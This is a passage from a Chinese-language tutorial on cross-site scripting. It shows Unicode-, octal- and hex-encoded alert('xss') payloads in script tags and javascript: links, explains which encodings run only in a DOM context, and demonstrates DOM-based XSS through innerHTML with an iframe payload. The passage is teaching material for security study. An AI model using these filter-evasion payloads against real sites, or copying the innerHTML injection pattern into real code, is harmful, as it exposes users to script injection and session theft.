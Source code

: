 - `<script>alert("xss")</script>`

```html
<script>\u0061\u006C\u0065\u0072\u0074("xss")</script>
<script>\u0061\u006C\u0065\u0072\u0074("\u0078\u0073\u0073")</script>
```

- `<a href=javascript:alert("xss")>test</a>`

```html
<a href=javascript:\u0061\u006C\u0065\u0072\u0074("xss")>test</a>
<a href=javascript:\u0061\u006C\u0065\u0072\u0074("\u0078\u0073\u0073")>test</a>
```

但要注意，我们同样也不能对伪协议头 `javascript:` 进行 Javascript 编码。并且像圆括号、双引号、单引号这样的符号我们也不能进 Javascript 编码，但是能进行HTML编码。

#### 在DOM环境中的JavaScript编码

对于八进制编码和十六进制编码，与 Unicode 编码还是有区别，像下面的XSS向量是**不能直接执行的**：

- `<script>alert("xss")</script>`

```html
<script>\141\154\145\162\164("xss")</script>
```

- `<a href=javascript:alert("xss")>test</a>`

```html
<a href=javascript:\x61\x6c\x65\x72\x74("xss")>test</a>
```

如下图，插入之后没有任何反应：

[![img](../../images/20210523094714-cc651728-bb68-1.png)](./谭谈 XSS 那些世人皆知的事 - 先知社区_files/20210523094714-cc651728-bb68-1.png)

[![img](../../images/20210523094714-cca61c3c-bb68-1.png)](./谭谈 XSS 那些世人皆知的事 - 先知社区_files/20210523094714-cca61c3c-bb68-1.png)

要想让他们能够执行我们要将他们放在DOM环境中，即DOM型的XSS。

测试代码：

```html
<div id='s'>test</div>

<script>
    var search = "...";
    document.getElementById('s').innerHTML = search;
</script>
```

以上情况很多都是出现在你搜索后，显示你所查询的关键字，变量 `search` 是一个可控点，当我们查询一个XSS攻击向量后，变量 `search` 就会被赋值为这个XSS向量，从而插入到div标签中触发XSS，如下所示：

```html
<div id='s'>test</div>

<script>
    var search = "<iframe src=javascript:alert('xss')></iframe>";
    document.getElementById('s').innerHTML = search;
</script>
```

